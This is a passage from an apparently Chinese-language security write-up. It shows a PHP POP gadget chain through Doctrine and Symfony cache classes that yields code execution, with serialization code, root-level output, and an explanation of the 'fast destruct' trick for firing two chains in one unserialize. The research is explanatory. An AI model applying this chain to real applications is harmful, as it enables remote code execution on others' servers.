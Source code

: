 ```bash
    {
        public $file = "/tmp/aaa.mocksess"; // fixed at the time
    }
}

namespace PopChain
{

use Doctrine\Common\Cache\Psr6\CacheAdapter;
use Doctrine\Common\Cache\Psr6\TypedCacheItem;
use Symfony\Component\Cache\Adapter\PhpArrayAdapter;

$obj = new CacheAdapter();
$obj->cache = new PhpArrayAdapter();

$obj->deferredItems = [new TypedCacheItem()];
echo serialize($obj);
}
```

当反序列化时，POP 链成功地到达了 `require` 代码，所以之前写在 `/tmp/aaa.mocksess` 中的 PHP 代码成功执行了了，触发了系统上的代码执行。

```bash
$ php unserialize.php 
a:1:{i:0;s:33:"uid=0(root) gid=0(root) groups=0(root)
phpinfo()
PHP Version => 8.1.15

System => Linux 184f5674e38c 5.10.0-21-amd64 #1 SMP Debian 5.10.162-1 (2023-01-21) x86_64
Build Date => Feb  9 2023 08:04:45
```

## 第四步，联合两条链

现在已经看到了如何生成两个链，仍然需要讨论一些细节来使它们一起协同完成攻击。事实上，这些 pop 链可以很好地协同工作，第一次触发文件写入，第二次触发文件包含。但是，下面也可以在一次反序列化中同时触发它们。

由于 POP 链由两条链组成，因此必须使用快速析构（Fast destruct）来强制执行这两条链。

快速析构是一种用于在反序列化后立即强制调用 `__destruct()` 函数的方法。由于已经完全控制了在反序列化的字符串中定义的对象，因此有可能创建异常状态，例如在数组中定义两次相同的索引。这将立即触发对象上的 `__destruct()` 调用。在下面的示例中，快速析构将在 `\Namespace\Object1` 和 `\Namespace\Object2` 上被调用，而不是在 `\Namespace\Object3` 上被调用。

快速析构定义的方案。

[![](assets/1698893201-d683399ee975d14b55e05b5d7e4e26cb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231028001830-77ada276-74e4-1.png)
